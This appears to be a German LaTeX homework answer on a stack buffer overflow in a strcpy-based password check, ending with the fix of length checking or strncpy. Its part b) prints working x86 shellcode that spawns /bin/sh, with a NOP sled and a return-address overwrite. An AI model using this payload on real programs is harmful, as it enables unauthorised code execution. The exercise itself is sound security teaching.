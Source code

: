 \documentclass[]{scrreprt}
\begin{document}
\subsection*{b)}
Der Kommandozeilenparamter könnte wie folgt aussehen:\newline
\begin{lstlisting}[caption={Kommandozeilenparamter ($\hat{=}$ einer Zeile)},captionpos=b]
$\backslash$x90$\backslash$x90$\backslash$x90$\backslash$x90$\backslash$x90$\backslash$x90$\backslash$x90$\backslash$x31$\backslash$xc9$\backslash$xf7$\backslash$xe1$\backslash$x51$\backslash$x68$\backslash$x2f$\backslash$x2f$\backslash$x73
$\backslash$x68$\backslash$x68 $\backslash$x2f$\backslash$x62$\backslash$x69$\backslash$x6e$\backslash$x89$\backslash$xe3$\backslash$xb0$\backslash$x0b$\backslash$xcd$\backslash$x80$\backslash$x90$\backslash$x90$\backslash$x90$\backslash$x90
\xEF\xBE\xAD\xDE
\end{lstlisting}
Die Instruktionen ''$\backslash$x90'' dienen hierbei als NOP-slide und als zusätzliches Padding um den Buffer zu überschreiben. Am ende muss die Adresse \texttt{0xDEADBEEF} in Little-Endian stehen. Damit wird die return-Adresse überschrieben und der Shellcode wird dadurch aufgerufen.\newline
Wenn die Adresse des password\_buffers \texttt{0xDEAD0070} lautet, dann wäre dies problematisch aufgrund des 0-Byte, da bei der \texttt{strcpy} Funktion dieses Byte als das Ende eines Strings interpretiert wird. Somit wäre es nicht möglich die return-Adresse vollständig zu überschreiben.
\subsection*{d)}
Um diesen Bug zu fixen, ist es notwendig, vor Zeile 12 des Codes das übergebene Passwort auf die Länge zu überprüfen. Die \texttt{strcpy} Funktion sollte nur dann Ausgeführt werden, wenn die Länge des eingegebenen Passwort $\leq 27$ ist.
Auch ist es möglich, statt \texttt{strcpy}, \texttt{strncpy} zu verwenden.
	
\end{document}
